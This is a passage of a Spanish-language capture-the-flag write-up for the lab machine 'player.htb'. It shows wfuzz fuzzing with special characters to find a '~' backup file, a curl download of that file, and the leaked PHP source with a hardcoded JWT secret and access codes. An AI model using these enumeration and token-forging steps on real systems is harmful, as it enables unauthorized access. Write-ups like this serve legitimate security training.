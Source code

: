 No he encontrado nada, pero puede que no sea una extensión si no un caracter especial lo que esté añadido

```null
wfuzz -c --hw=32 -t 200 -w /usr/share/seclists/Fuzzing/special-chars.txt http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.phpFUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.phpFUZZ
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000001:   200        32 L     66 W       742 Ch      "~"                                   
000000026:   302        0 L      0 W        0 Ch        "?"                                   
000000025:   302        0 L      0 W        0 Ch        "/"                                   
000000004:   302        0 L      0 W        0 Ch        "#"                                   
000000006:   400        10 L     35 W       301 Ch      "%"                                   
000000027:   302        0 L      0 W        0 Ch        ";"                                   

Total time: 0
Processed Requests: 32
Filtered Requests: 26
Requests/sec.: 0
```

La ```~``` devuelve un código de estado 200. Descargo este archivo a mi equipo

```null
curl 'http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php~' -o dee8dc8a47256c64630d803a4c40786c.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   742  100   742    0     0   3016      0 --:--:-- --:--:-- --:--:--  3028
```

Puedo leer el código fuente

```php
<?php
require 'vendor/autoload.php';

use \Firebase\JWT\JWT;

if(isset($_COOKIE["access"]))
{
    $key = '_S0_R@nd0m_P@ss_';
    $decoded = JWT::decode($_COOKIE["access"], base64_decode(strtr($key, '-_', '+/')), ['HS256']);
    if($decoded->access_code === "0E76658526655756207688271159624026011393")
    {
        header("Location: 7F2xxxxxxxxxxxxx/");
    }
    else
    {
        header("Location: index.html");
    }
}
else
{
    $token_payload = [
      'project' => 'PlayBuff',
      'access_code' => 'C0B137FE2D792459F26FF763CCE44574A5B5AB03'
    ];
```